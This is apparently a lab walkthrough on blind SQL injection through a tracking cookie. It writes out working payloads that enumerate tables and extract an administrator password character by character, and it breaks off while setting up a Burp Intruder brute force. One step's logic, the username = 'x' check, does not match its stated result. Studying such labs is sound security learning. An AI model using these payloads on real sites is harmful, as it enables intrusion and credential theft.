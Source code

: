 ## How to determine whether web app has blind SQLi vulnerability or not

- Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```sql 
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

- When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using a SQL query like this:
```sql 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
- ***This query is vulnerable to SQL injection***, but the results from the query are not returned to the user.
- If it returns data (because a recognized `TrackingId` was submitted), then a "Welcome back" message is displayed within the page.
- This behavior is enough to be able to exploit the blind SQL injection vulnerability.

## How the above works
- suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
```sql 
…xyz' AND '1'='1 
…xyz' AND '1'='2
```
- The first of these values will cause the query to return results, because the injected `AND '1'='1` condition is true, and so the "Welcome back" message will be displayed.
- Whereas the second value will cause the query to not return any results, because the injected condition is false, and so the "Welcome back" message will not be displayed.
- This allows us to determine the answer to any single injected condition, and so extract data one bit at a time.

- For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time. To do this, we start with the following input:
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
- This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

- Next, we send the following input:
```sql 
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
- This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

- Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:
```sql 
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

- We can continue this process to systematically determine the full password for the `Administrator` user.

## Steps to solve Lab-1
### Desc - Blind SQL injection with conditional responses

1. First confirm that the parameter(tracking-id) is vulnerable to blind SQLi
Vulnerable parameter - tracking cookie(tracking-id)
**Below is how the backend query looks like when it checks the user is known or not known** ->
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'Bs2vlGFAYY1bH5PO'
```
- if this tracking id exists -> query returns value -> Welcome back(for this lab but differ in real world)
  If this tracking id doesn't exist -> query returns nothing -> no Welcome back message(for this lab)

2. To fully confirm that it is vulnerable to blind based SQLi, we need to perform true and false use case. So that we can take out administrator password. For that we need to perform below query as follows:

In the backend the below SQL query looks like for true use case:
```sql
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and 1=1--
```
--> True --> Welcome back(message in the web app)
Below performing on burp:
![[blind_SQL_injection_conditional_responses1.png]]

In the backend the below SQL query looks like for false use case:
```sql 
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and 1=0--
```
--> False --> No Welcome back(message in the web app) 
Below performing on burp:
![[blind_SQL_injection_conditional_responses2.png]]

3. Asking the database that, do you have users table?
- For that we use the below query:
```sql
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and (SELECT 'x' FROM users LIMIT 1) = 'x'--
```
- Below performing on burp:
![[blind_SQL_injection_conditional_responses3.png]]
**Result** - Users table is present in the database.

4. Asking the database that, do you have a user named 'administrator'?
- For that we use the below query:
```sql
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and (SELECT username FROM users where username='administrator') = 'x'--
```
- Below performing on burp:
![[blind_SQL_injection_conditional_responses4.png]]
**Result** - administrator user is exist in database because welcome back message is still there.

5. Enumerate the password of administrator.
	1. Asking the database, the length of password of administrator by below SQL query:
		```sql
		SELECT tracking-id FROM tracking-table WHERE trackingId =    'Bs2vlGFAYY1bH5PO'' and (SELECT username FROM users where username='administrator' and LENGTH(password)>1) = 'administrator'--
```
	2. Below performing on burp:
	   ![[blind_SQL_injection_conditional_responses5.png]]

	3. Now, we are going to perform brute force and for that we send the Repeater Raw data to intruder.
		![[blind_SQL_injection_conditional_responses6.png]]

	4. In the intruder, we clear positions.
		![[blind_SQL_injection_conditional_responses7.png]]

	5. Then add the position that you want to brute force to
		![[blind_SQL_injection_conditional_responses8.png]]